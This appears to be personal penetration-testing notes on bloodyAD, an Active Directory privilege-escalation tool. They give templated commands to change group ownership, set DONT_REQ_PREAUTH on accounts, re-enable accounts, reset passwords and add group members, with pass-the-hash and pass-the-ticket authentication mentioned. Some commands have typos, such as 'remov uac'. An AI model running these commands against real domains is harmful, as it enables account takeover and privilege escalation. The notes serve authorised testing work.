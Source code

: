 # bloodyAD

## Overview

This tool can perform specific LDAP calls to a domain controller in order to perform AD privesc.

bloodyAD supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

Used to perform ldap queries

## Installation

pip install bloodyAD

## Usage

Set owener of group

    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <group_name> <name_of_new_owner>

Set dont_req_preauth

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH


Enable an account

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k remov uac <username_of_target_account> -f ACCOUNTDISABLE

Change Set Password

    bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k set password <username_target> '<new_password>'


### ADD

Add user to group:

```shell
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```

## More Information

https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
https://seriotonctf.github.io/2024/12/01/BloodyAD-Cheatsheet/index.html